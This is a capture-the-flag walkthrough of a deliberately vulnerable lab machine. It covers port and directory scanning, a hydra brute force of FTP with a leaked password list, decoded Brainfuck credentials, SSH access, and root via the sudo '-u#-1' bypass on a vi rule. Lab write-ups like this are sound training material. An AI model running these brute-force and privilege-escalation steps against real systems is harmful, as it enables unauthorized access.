

Target: 10.10.139.170

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.139.170             

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 14:48 +08
Nmap scan report for 10.10.139.170
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.139.170/FUZZ

assets                  [Status: 301, Size: 315, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
```

checking /assets


viewing the style css
```
<snip>
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
<snip>
```

viewing /super_secret_flag


intercepting in burp


viewing the redirect


decoding Hot_babe.png
```
$ strings Hot_babe.png

<snip>
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

### Findings:Looking for attack vectors

Dictionary attack on ftp using username ftpuser.


## Foothold:

hydra
```
$ hydra -l ftpuser -P pass.txt 10.10.139.170 ftp -V

[21][ftp] host: 10.10.139.170   login: ftpuser   password: 5iez1wGXKfPKQ
```

Loot:

ftpuser:5iez1wGXKfPKQ

accessing ftp
```
$ ftp 10.10.139.170

Connected to 10.10.139.170.
220 (vsFTPd 3.0.2)
Name (10.10.139.170:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.

ftp> get Eli's_Creds.txt

local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (5.8297 MB/s)
```

decoding Eli's_Creds
```
$ cat Eli\'s_Creds.txt   
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

# decode in https://www.dcode.fr/brainfuck-language

Results
Console

User: eli

Password: DSpDiM1wAEwid
```

Loot:

eli:DSpDiM1wAEwid

```
$ ssh eli@10.10.139.170              

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

eli@year-of-the-rabbit:~$ id

uid=1000(eli) gid=1000(eli) groups=1000(eli),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),119(bluetooth)
```


## Lateral Movement:

enumerating users
```
eli@year-of-the-rabbit:/home$ ls -la

total 16
drwxr-xr-x  4 root       root       4096 Jan 23  2020 .
drwxr-xr-x 23 root       root       4096 Jan 23  2020 ..
drwxr-xr-x 16 eli        eli        4096 Jan 23  2020 eli
drwxr-xr-x  2 gwendoline gwendoline 4096 Jan 23  2020 gwendoline
```

looking for suspicious file/s
```
eli@year-of-the-rabbit:/home$ find / -name s3cr3t 2> /dev/null

/usr/games/s3cr3t

eli@year-of-the-rabbit:/home$ cd /usr/games/s3cr3t

eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la

total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

Loot:

gwendoline:MniVCQVhQHUNI


```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su - gwendoline
 
gwendoline@year-of-the-rabbit:~$ id

uid=1001(gwendoline) gid=1001(gwendoline) groups=1001(gwendoline)
```

```
gwendoline@year-of-the-rabbit:~$ cat user.txt 

<redacted>
```


## Priv Escalations:

```
gwendoline@year-of-the-rabbit:~$ sudo -l

Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt 

[No write since last change]

# id

uid=0(root) gid=0(root) groups=0(root)
```

```
# cd /root

# cat root.txt

<redacted>
```
